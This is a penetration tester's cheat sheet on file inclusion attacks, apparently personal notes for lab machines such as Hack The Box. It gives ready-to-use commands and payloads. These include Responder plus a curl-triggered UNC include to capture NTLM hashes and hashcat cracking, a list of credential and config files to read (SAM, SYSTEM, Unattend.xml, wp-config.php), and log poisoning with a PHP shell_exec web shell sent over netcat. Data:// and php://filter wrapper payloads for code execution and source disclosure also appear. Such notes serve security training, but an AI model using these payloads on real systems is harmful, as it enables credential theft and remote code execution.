 # RFI/LFI

### AD

If it’s in an active directory domain, you have the option to use responder to capture an LLMNR hash.

```coffeescript
# tab 1
responder -v -I tun0

#seperate tab
curl http://school.flight.htb/index.php?view=//10.10.16.48/TEST
```

![Untitled](RFI%20LFI%20f24166480c7046bd98d01a69a568d608/Untitled.png)

Crack hash

```coffeescript
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

# LFI

## View source code of php page with wrapper

```bash
php://filter/convert.base64-encode/resource=index
```

## Windows

Interesting files

```abap
# Files to find
C:\win.ini
C:\Windows\system.ini

# Apache logs
c:\xampp\apache\logs\access.log

# website root diretory (equivalent of /var/www)
C:\xampp\htdocs

# IIS logs are stored here
%SystemDrive%\inetpub\logs\LogFiles
%SystemDrive%\inetpub\logs\LogFiles\W3SVC4
%SystemDrive%\Windows\System32\LogFiles\HTTPERR

C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
C:\Program Files\MySQL\MySQL Server 5.7\my.ini
C:\Program Files\php\php.ini
C:\Users\Administrator\NTUser.dat
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\php.ini
C:\Windows\repair\SAM
C:\Windows\repair\system
C:\Windows\System32\config\AppEvent.evt
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\RegBack\system
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SecEvent.evt
C:\Windows\System32\config\SysEvent.evt
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\winevt\Logs\Application.evtx
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\win.ini
C:\xampp\apache\conf\extra\httpd-xampp.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
C:\xampp\FileZillaFTP\FileZilla Server.xml
C:\xampp\MercuryMail\MERCURY.INI
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\security\webdav.htpasswd
C:\xampp\sendmail\sendmail.ini
C:\xampp\tomcat\conf\server.xml
```

### Log Poisoning

```abap
# send PHP payload
$ nc -nv 10.11.0.22 80
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

# visit log file and use php to execute files
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

## Linux

### Interesting Files

```abap
/etc/vsftpd.conf
/var/www/html/wp-config.php
/var/www/html/webdav/passwd.dav
```

# Other

## Code execution through PHP wrappers

This one is slightly unrelated but it allows for code execution through PHP wrappers that use the `include()` function

```abap
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

As shown in [this article](https://www.aptive.co.uk/blog/local-file-inclusion-Lfi-testing/), you can also do something like this where you specify `cmd` in the url query parameters and send the php code in the post data

![Untitled](RFI%20LFI%20f24166480c7046bd98d01a69a568d608/Untitled%201.png)

If you’re uploading ZIP files, check this out for RCE [https://rioasmara.com/2021/07/25/php-zip-wrapper-for-rce/](https://rioasmara.com/2021/07/25/php-zip-wrapper-for-rce/)